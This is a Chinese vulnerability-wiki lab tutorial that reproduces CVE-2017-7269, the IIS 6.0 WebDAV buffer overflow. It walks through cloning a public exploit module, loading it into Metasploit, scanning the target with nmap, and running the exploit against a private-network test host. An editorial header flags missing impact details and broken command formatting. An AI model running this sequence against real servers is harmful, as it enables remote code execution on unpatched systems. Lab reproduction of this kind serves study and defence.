










# （CVE-2017-7269）IIS 6.0开启Webdav 缓存区溢出漏洞

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：旧IIS6启用WebDAV，匹配OS/架构/语言及漏洞模块目标，端口可达
- 证据范围：工具操作截图教程，未展示请求/溢出根因；稳定利用说法仅实验自述不能推广。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 影响章节空白，缺位数、OS补丁、目标布局等适配条件
- 系统镜像只ed2k非微软验证来源
- cp命令换行没有续行，未先cd克隆目录；shell及msf的//不是注释，原样会误执行
- 只设置RHOSTS/RPORT未说明payload/LHOST/target与崩溃风险
- 无修复/禁用WebDAV缓解与恢复说明，图片尾巴重复

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

一、漏洞简介
------------

IIS
6.0开启Webdav服务的服务器被爆存在缓存区溢出漏洞导致远程代码随意执行，目前针对
Windows Server 2003 R2 可以稳定利用。

二、漏洞影响
------------

三、复现过程
------------

### 环境搭建

目标主机：Windows Server 2003 R2镜像下载：种子文件用迅雷下载:

    ed2k://|file|cn_win_srv_2003_r2_enterprise_with_sp2_vl_cd1_X13-46432.iso|637917184|284DC0E76945125035B9208B9199E465|/

IP：192.168.1.104

A.安装IIS6.0服务：

IIS6.0开启Webdav缓存区溢出漏洞/media/rId25.png)

B.打开WebDAV服务拓展：

IIS6.0开启Webdav缓存区溢出漏洞/media/rId26.png)

攻击机：kali Linux镜像下载：https://www.kali.org/downloads/IP:192.168.1.106

### 配置攻击套件

\--首先我们要下载EXP文件，输入：

> git clone https://github.com/ianxtianxt/cve-2017-7269 //下载EXp
>
> ls //查看当前目录下的文件

IIS6.0开启Webdav缓存区溢出漏洞/media/rId28.png)

\--然后我们需要复制EXP到msf框架中\#注意复制时，是下划线"\_"不要写成cve-2017-7269.rb\#，在目录下重命名这个文件为cve\_2017\_7269.rb，输入：

> cp cve\_2017\_7269.rb
> /usr/share/metasploit-framework/modules/exploits/windows/iis/
> //复制EXP到相应目录
>
> cd /usr/share/metasploit-framework/modules/exploits/windows/iis/
> //进入目录
>
> ls //查看当前目录下的文件

IIS6.0开启Webdav缓存区溢出漏洞/media/rId29.png)

IIS6.0开启Webdav缓存区溢出漏洞/media/rId30.png)

\--我们使用nmap扫描一下靶机的端口情况，输入：

> nmap 192.168.1.104 //扫描192.168.1.104的端口

IIS6.0开启Webdav缓存区溢出漏洞/media/rId31.png)

可以看到我们要攻击的80端口已经开启\#

### 利用msf开始攻击

IIS6.0开启Webdav缓存区溢出漏洞/media/rId33.png)

\--然后我们要使用刚才复制进去的EXP套件输入：

    msf5 > use exploit/windows/iis/cve_2017_7269 //使用此套件
    msf5 > show options //查看需要的配置

发现只需要配置RHOSTS(目标IP)，最好把RPORT(目标端口)也配置下

IIS6.0开启Webdav缓存区溢出漏洞/media/rId34.png)

    msf5 > set rhosts 192.168.1.104 // 设置目标的IP
    msf5 > set rport 80 //设置目标端口

IIS6.0开启Webdav缓存区溢出漏洞/media/rId35.png)

    msf5 > exploit

IIS6.0开启Webdav缓存区溢出漏洞/media/rId36.png)
